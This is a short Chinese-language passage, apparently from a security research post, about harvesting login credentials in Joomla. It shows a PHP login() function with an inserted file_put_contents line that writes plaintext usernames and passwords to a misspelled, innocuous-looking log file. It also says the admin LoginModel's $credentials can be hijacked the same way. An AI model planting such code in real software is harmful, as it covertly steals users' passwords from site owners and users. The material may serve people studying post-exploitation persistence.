 [![](assets/1706845175-fb06c55060aa7fde8c25c8170b637be7.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706771938439-8da3a217-fa76-4823-89fb-6fbb3c879956.png#averageHue=%232c2e32&clientId=u22ad75f3-605d-4&from=paste&height=980&id=RRCip&originHeight=1960&originWidth=3096&originalType=binary&ratio=2&rotation=0&showTitle=false&size=757246&status=done&style=none&taskId=u3a897f44-32d1-4a24-9a94-10e19b47c26&title=&width=1548)  
可以在此处插入代码劫持$data\['username'\]和$data\['password'\]，具体方法参照[wordpress 安全技术研究](https://xz.aliyun.com/t/13447)

```plain
public function login()
  {
    $this->checkToken('post');

    $input = $this->input->getInputForRequestMethod();

    // Populate the data array:
    $data = [];

    $data['return']    = base64_decode($input->get('return', '', 'BASE64'));
    $data['username']  = $input->get('username', '', 'USERNAME');
    $data['password']  = $input->get('password', '', 'RAW');
    $data['secretkey'] = $input->get('secretkey', '', 'RAW');
    file_put_contents('/var/log/accesss.log',$data['username'].$data['password']);
```

### 后台

通过动态侦听调试发现位于/administrator/components/com\_login/src/Model/LoginModel.php 控制器中的 populateState 函数在登陆过程中收集了明文密码，那么我们只需要对$credentials 变量进行劫持，具体方法参照[wordpress 安全技术研究](https://xz.aliyun.com/t/13447)  